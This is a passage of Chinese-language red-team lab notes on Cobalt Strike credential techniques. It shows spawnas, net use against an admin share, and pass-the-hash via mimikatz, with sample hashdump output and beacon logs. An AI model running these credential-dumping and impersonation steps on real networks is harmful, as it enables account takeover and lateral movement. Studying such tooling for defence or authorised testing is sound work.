 当密码输入错误时，执行上面的两个命令就会提示 登录失败: 未知的用户名或错误密码。 同样的使用 rev2self 可除去当前令牌，恢复原来的 SYSTEM 权限。
2、使用 spawn beacon 替代凭证

```powershell
spawnas DOMAIN\user password
```

3、在目标上建立账户

```powershell
net use \\host\C$/USER:DOMAIN\user password
```

这两种方法，在之前的笔记中都或多或少的提及过，这里不再过多赘述。

#### 密码哈希

使用 mimikatz 获取密码哈希

```
pth DOMAIN\user ntlmhash
```

如何工作的？
1、mimikatz 使用登录令牌开启了一个进程，在单点登录信息那里填入我们提供的用户名称、域、密码哈希值
2、cobalt strike 自动的从那个进程中窃取令牌并关闭
首先使用 hashdump 获取用户的密码哈希值，这里的 beacon 会话为 SYSTEM 权限。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Daniel:1000:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
TeamsSix:1002:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

使用 pth 获取信任

```powershell
beacon> pth TEAMSSIX\Administrator 12cb161bvca930994x00cbc0aczf06d1
[+] host called home, sent: 23 bytes
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:TEAMSSIX /ntlm:12cb161bvca930994x00cbc0aczf06d1 /run:"%COMSPEC% /c echo ade660d8dce > \\.\pipe\8d3e4c" command
[+] host called home, sent: 750600 bytes
[+] host called home, sent: 71 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
user	: Administrator
domain	: TEAMSSIX
program	: C:\Windows\system32\cmd.exe /c echo ade660d8dce > \\.\pipe\8d3e4c
impers.	: no
NTLM	: 12cb161bvca930994x00cbc0aczf06d1
  |  PID  2992
  |  TID  5028
  |  LSA Process is now R/W
  |  LUID 0 ; 14812112 (00000000:00e203d0)
  \_ msv1_0   - data copy @ 0000000001794E80 : OK !
  \_ kerberos - data copy @ 000000000044A188
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000000017DA1E8 (16) -> null

```